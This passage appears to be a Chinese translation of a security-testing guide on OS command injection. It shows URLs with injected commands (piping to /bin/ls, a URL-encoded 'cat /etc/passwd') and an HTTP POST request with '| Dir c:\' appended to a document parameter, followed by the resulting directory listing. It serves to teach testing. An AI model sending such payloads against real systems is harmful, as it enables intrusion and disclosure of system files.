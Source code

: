 更改前的示例网址：```http://sensitive/cgi-bin/userData.pl?doc=user1.txt```

示例网址已修改：```http://sensitive/cgi-bin/userData.pl?doc=/bin/ls|```

这将执行命令/bin/ls。

在.PHP页面的URL末尾添加分号，然后再加上操作系统命令，将执行该命令。```%3B```分号的URL编码

例：```http://sensitive/something.php?dir=%3Bcat%20/etc/passwd```

#### 示例

考虑一个包含一组文档的应用程序，您可以从Internet浏览这些文档。如果启动个人代理（例如ZAP或Burp Suite），则可以获取POST HTTP，如下所示：
```
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf
```

在POST请求中，我们注意到应用获取了公开文档。现在我们可以测试是否可能增加一个OS命令，注入到POST请求中，例如：
```
POST http://www.example.com/public/doc HTTP/1.1
Host: www.example.com
User-Agent: Mozilla/5.0 (Windows; U; Windows NT 5.1; it; rv:1.8.1) Gecko/20061010 FireFox/2.0
Accept: text/xml,application/xml,application/xhtml+xml,text/html;q=0.9,text/plain;q=0.8,image/png,*/*;q=0.5
Accept-Language: it-it,it;q=0.8,en-us;q=0.5,en;q=0.3
Accept-Encoding: gzip,deflate
Accept-Charset: ISO-8859-1,utf-8;q=0.7,*;q=0.7
Keep-Alive: 300
Proxy-Connection: keep-alive
Referer: http://127.0.0.1/WebGoat/attack?Screen=20
Cookie: JSESSIONID=295500AD2AAEEBEDC9DB86E34F24A0A5
Authorization: Basic T2Vbc1Q9Z3V2Tc3e=
Content-Type: application/x-www-form-urlencoded
Content-length: 33

Doc=Doc1.pdf+|+Dir c:\
```

如果应用不验证请求，我们可以获取如下的结果：
```
Exec Results for 'cmd.exe /c type "C:\httpd\public\doc\"Doc=Doc1.pdf+|+Dir c:\'
    Output...
    Il volume nell'unità C non ha etichetta.
    Numero di serie Del volume: 8E3F-4B61
    Directory of c:\
     18/10/2006 00:27 2,675 Dir_Prog.txt
     18/10/2006 00:28 3,887 Dir_ProgFile.txt
     16/11/2006 10:43
        Doc
        11/11/2006 17:25
           Documents and Settings
           25/10/2006 03:11
```